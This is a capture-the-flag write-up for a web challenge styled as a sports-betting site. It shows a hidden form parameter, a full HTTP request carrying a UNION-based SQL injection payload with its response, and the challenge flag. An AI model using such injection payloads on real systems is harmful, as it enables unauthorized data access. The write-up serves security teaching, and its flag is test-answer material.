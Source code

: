 `{FLG:y0U-aT3_700-mUch_B4D_GO4T}`


# Web-200

## Description

```
The Last Fighting Goat

The palace of the Web Realm, a gleaming place called Hypercloud, is guarded by Polyglot, an amorphous being that travels through the ether at extraordinary speeds. Polyglot is an arcane guardian, with the ability to speak and understand all existing languages.
```

## Solution

We are presented with an interesting looking website which resembles a sports betting site. The goal is to get 100 euros by betting on the fights, as we gain +10 euros when we win and -10 when we lose. Now, the odds are not too bad and we could probably solve this by just trying our luck, as there's a ~ 0.1% chance of obtaining the 100 euros by just randomly guessing 10 games in a row, and we could create multiple sessions to increase our chances (because each round took 1 minute). But that was not feasible as the betting required completing a reCAPTCHA challenge.

So we had to look elsewhere. We noticed a hidden parameter in the /hof page:
```html
    <form hidden="true">
        <input name="year">
    </form>
```

Which was vulnerable to SQL injection!

```
POST /web2-3c91477fb7fb643fc15d090da43cb634f20f0ed7/hof HTTP/1.1
Host: gamebox1.reply.it
Cookie: UID=<UID>
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 55

year=' union select 1337,1337 from bets_hall_of_fame-- -
```

The result:

```html
    <tr>
        <th scope="row">1</th>
        <td class="prize">1337</td>
        <td>€1337</td>
        <td>133</td>
    </tr>
```
